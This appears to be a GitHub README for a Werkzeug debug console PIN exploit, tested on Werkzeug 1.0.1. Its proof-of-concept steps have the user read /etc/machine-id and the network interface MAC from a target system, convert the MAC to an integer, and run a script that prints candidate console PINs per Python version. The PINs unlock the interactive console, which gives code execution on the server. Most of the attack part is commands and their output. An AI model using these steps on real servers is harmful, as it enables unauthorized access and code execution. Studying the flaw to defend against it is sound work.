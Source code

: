 # Werkzeug Console PIN Exploit
![alt text](https://github.com/ahrixia/flask-console-pin-generator/blob/main/poc-img/Werkzeug_Console_OUT.png "Locked Console")
### Tested on :
- Python 3.6.9
- Server - Werkzeug 1.0.1
- Linux 4.15.0-20-generic #21-Ubuntu x86_64 GNU/Linux

## Proof of Concept - POC
1. Get `/etc/machine-id` and `/sys/class/net/$INTERFACE/address` from the target. 
3. Convert the interface address(MAC) to integer form. Eg- `00:50:56:bf:d7:70` to `345052796784`. This could be done using python as follows:
```python
>>> print(0x005056bfd770)
345052796784
```
3. Run the python script.
```bash
$python as.py --uuid 345052796784  --machineid 00566233196142e9961b4ea12a2bdb29 
[!] App.py base path not provided, trying on Python Versions - 2.7 and 3.0 - 3.8.
Python V2.7 PIN: 134-138-423
Python V3.0 PIN: 278-866-810
Python V3.1 PIN: 299-529-114
Python V3.2 PIN: 223-757-906
Python V3.3 PIN: 181-173-573
Python V3.4 PIN: 201-362-587
Python V3.5 PIN: 195-645-696
Python V3.6 PIN: 328-723-543
Python V3.7 PIN: 300-924-247
Python V3.8 PIN: 880-398-758
```
4. Use the PIN with the Python Version installed on the target to get into the console.
![alt text](https://github.com/ahrixia/flask-console-pin-generator/blob/main/poc-img/Werkzeug_Console_IN.png "Unlocked Console")
---
**NOTE**: This script runs with some default infomation such as Username as www-data and Hash as MD5. You can run the `-h` flag for more information.
